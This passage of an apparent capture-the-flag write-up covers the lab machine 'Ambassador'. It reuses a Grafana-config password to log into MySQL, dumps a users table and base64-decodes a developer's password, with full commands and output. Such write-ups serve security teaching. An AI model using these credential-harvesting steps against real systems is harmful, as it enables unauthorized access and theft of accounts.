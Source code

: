 ```http
   password: dontStandSoCloseToMe63221!
   editable: false
```

This gives us the following MySQL creds: `grafana:dontStandSoCloseToMe63221!`

## User

We can access the mysql server with above credentials. Looking at the content of the database `whackywidget` reveals credentials for the `developer` user:
```mysql
$ mysql -u grafana -h ambassador.htb -p'dontStandSoCloseToMe63221!'
...
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.052 sec)

MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.046 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.045 sec)
```

The password looks base64-encoded, and decoding it leads to meaningful output:

```bash
$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==  | base64 -d
anEnglishManInNewYork027468                                 
```
